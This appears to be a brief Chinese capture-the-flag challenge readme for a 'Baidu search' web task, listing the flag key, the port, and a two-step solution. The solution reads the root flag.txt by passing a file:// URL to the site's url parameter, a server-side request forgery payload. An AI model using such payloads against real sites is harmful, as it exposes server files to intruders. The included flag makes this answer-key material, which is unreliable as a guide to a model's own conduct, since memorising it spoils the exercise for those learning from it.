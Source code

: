 # 题目：百度搜索

### 题目描述：我写了一个网站调用了百度搜索，感觉很高大上哈哈哈

### 题目难度： 🌟

### 维护：SiJiDo

### KEY: `NSCTF{4787370fb09bd230f863731d2ffbff6a}`

### 配置信息： 

1. 开放端口： `10004`

### 解题过程：

1. 查看源码发现提示flag.txt在根目录
2. 利用file协议读取flag.txt, `http://xxx.xxx.xxx.xxx/?url=file:///flag.txt`

